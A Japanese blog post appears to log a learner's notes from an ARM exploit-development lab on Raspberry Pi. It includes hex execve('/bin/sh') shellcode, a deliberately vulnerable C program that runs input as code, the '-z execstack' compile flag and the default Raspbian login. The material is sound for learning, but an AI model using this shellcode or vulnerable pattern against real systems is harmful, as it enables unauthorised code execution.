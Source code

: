 ```yaml
---
title: "Exploit"
emoji: "☠️"
type: "tech" # tech: 技術記事 / idea: アイデア
topics:
  - "shellcode"
  - "exploit"
published: true
---
```


http://www.alicemacs.com/ARM_Exploit/

こちらのLearning ARM Exploit Developmentに取り組むにあたって、詰まった部分などをまとめています。
本当は自分で他のシェルコードを書いてみたかったのですが、そこまでは至りませんでした。

# 準備

### 解凍に失敗する

`2020-02-13-raspbian-buster-lite.zip`を解凍するときに、VM上ではメモリが足りなくて解凍に失敗しました。
解凍後の`2020-02-13-raspbian-buster-lite.img`のサイズはおよそ`1.8G`ありますので、空き容量に注意が必要です。

### ログインができない
Raspbian環境は
```
raspberrypi login: pi
Password: raspberry
```
でログインできます。

# Crafting Shellcode

- アセンブリはRaspbianの環境上でコンパイルします

```
\x10\x00\x8f\xe2\x0b\x70\xa0\xe3\x01\x10\x21\xe0\x02\x20\x22\xe0\x07\x20\xc0\xe5\x01\x00\x00\xef\x2f\x62\x69\x6e\x2f\x73\x68\x41\x00\x00\x00\x00pi
```

### 1.3 シェルコードを用いたシェル奪取

```c:shellcode.c
#include <stdio.h>
int main()
{
  char buf[30];
  setbuf(stdout, NULL);
  printf("Give me a shellcode: ");
  fgets(buf, sizeof(buf), stdin);
  (*(void (*)())buf)();
}
```

### 挙動とコンパイルオプション
```
pi@raspberrypi:~$ socat tcp-l:8888,reuseaddr,fork exec:./shellcode
```
`shellcode`を上記のように実行するのですが、コンパイルを間違えるとうまく動きません。

```shell
pi@raspberrypi:~$ gcc shellcode.c -o shellcode
```
でコンパイルしていたところ、
```shell
$> ./solve.rb
ls ; [*] shellcode length: 28
[INFO] Switching to interactive mode
[INFO] Got EOF in interactive mode
```
このように、いつもinteractive modeに移行した後にすぐ、EOFでプログラムが終了してしまいました。

これは正しくは
```shell
pi@raspberrypi:~$ gcc -z execstack shellcode.c -o shellcode
```
のようにフラグをつけてコンパイルする必要がありました。

### `-z execstack` ?

https://stackoverflow.com/questions/29178445/what-is-the-z-option-for-in-this-gcc-compiler-command

gcc に渡している`-z`のオプションに関しては以下のように記述がありました。
> **-z keyword**
-z is passed directly on to the linker along with the keyword keyword. See the section in the documentation of your linker for permitted values and their meanings.
[source: gcc.gnu.org](https://gcc.gnu.org/onlinedocs/gcc/Link-Options.html#index-z:~:text=additional%20library%20modules.-,%2Dz%20keyword,-%2Dz%20is%20passed)

リンカに渡すためのオプションのようです。

### シェルコードをいじってみたけど失敗したので自分にはまだ早かった

- コンパイル
```shell
ARG='mycode' && as $ARG.asm -o $ARG.o && ld $ARG.o -o $ARG.bin && objdump -d $ARG.bin && rm $ARG.o
```
- シェルコード作成
```shell
objcopy -O binary $ARG.bin $ARG_hex.bin && hexdump -v -e '"\\""x" 1/1 "%02x" ""' $ARG_hex.bin
```

Thumbモードにせずに実行したら命令セットが長くて`\x00`を含むコードになってしまった。
もちろん動かなかった。
```
\x10\x00\x8f\xe2\x0b\x70\xa0\xe3\x01\x10\x21\xe0\x02\x20\x22\xe0\x07\x20\xc0\xe5\x01\x00\x00\xef\x2f\x62\x69\x6e\x2f\x73\x68\x41
```
